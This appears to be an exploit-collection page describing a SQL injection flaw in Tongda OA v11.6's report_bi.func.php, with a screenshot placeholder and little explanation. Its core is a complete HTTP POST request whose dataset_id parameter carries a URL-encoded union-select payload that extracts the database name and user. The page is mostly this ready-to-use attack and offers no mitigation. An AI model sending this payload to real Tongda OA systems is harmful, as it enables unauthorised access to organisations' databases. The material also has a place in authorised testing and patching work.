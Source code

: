 # Tongda OA v11.6 report_bi.func.php SQL injection vulnerability

## Vulnerability Description

Tongda OA v11.6 report_bi.func.php has a SQL injection vulnerability, and attackers can obtain database information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA v11.6 </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628302327738-ad1786e4-4b1d-42a2-b292-ff14cbb94476.png)

Send request packet to execute SQL statement

```php
POST /general/bi_design/appcenter/report_bi.func.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 113
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

_POST[dataset_id]=efgh%27-%40%60%27%60%29union+select+database%28%29%2C2%2Cuser%28%29%23%27&action=get_link_info&
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628302377105-4b5b0721-a8ab-4df9-987c-744fb145f178.png)